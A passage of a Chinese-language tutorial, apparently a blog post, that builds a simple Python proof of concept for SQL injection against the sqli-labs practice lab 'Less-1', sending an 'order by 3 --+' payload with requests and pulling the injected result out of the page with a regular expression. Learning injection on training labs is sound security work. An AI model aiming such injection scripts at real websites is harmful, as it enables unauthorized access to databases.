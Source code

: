 然后就可以使用 requests.get() 发起请求了 <br>

最后呢，使用正则表达抓取返回的内容就可以了  <br>

这样一个简单的POC就完成了。 <br>

```python
import requests
import re

url = "http://www.sql.com/Less-1/?id=-1\'";

payloads = " order by 3 --+"

headers = {
	'Host': 'www.sql.com',
	'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
	'Accept-Encoding': 'gzip, deflate'

}

r = requests.get(url+payloads,headers=headers)

result = re.findall('<font.*?Your(.*?)</font>',r.text)

print(result)
```

这个正则匹配就是抓取关键返回值，<br>

因为 request 解析的是一个原始页面，也就是源代码，<br>

所以要从源码里面找到返回值，<br>

下图就是我们要抓取的返回值，<br>

每次注入的返回值就是在这里显示的，所有每次都要从这个地方抓取，<br>

![images](/images/2019-06-20/sql01.png)
